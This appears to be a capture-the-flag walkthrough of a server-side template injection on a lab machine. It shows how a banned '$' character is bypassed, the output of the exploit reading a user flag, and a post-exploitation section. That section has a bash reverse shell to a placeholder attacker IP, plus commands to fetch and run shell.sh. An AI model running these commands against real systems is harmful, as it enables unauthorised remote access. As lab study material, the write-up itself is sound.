 > Template injection allows an attacker to include template code into an existing (or not) template. A template engine makes designing HTML pages easier by using static template files which at runtime replaces variables/placeholders with actual values in the HTML pages
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java) [A Pentester's Guide to Server Side Template Injection (SSTI)](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti)

![[server_side_template_injection_ssti_1.png]]

 ![[server_side_template_injection_ssti_2.png]]

##### Try it

Try the `$` character.

![[SSTI_01.png]]

The `$` character is banned. Try `*`.

 ![[SSTI_02.png]]

Malicious input injected into template to execute commands on the server-side.

>Proof-of-Concept => exploit.py

### Exploitation

	python3 exploit.py

```shell-session
$ id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)

$ cat /home/woodenk/user.txt
<...FLAG...>
```

### Post-Exploitation

#### Get reverse shell

	cat shell.sh

```shell-session
bash -c 'bash -i >& /dev/tcp/<attacker_ip>/1234 0>&1'
```

Attacker:

	python3 -m http.server 80
	nc -lvnp 1234
	python3 exploit.py


Victim:

	wget <attacker_ip>/shell.sh
	bash shell.sh
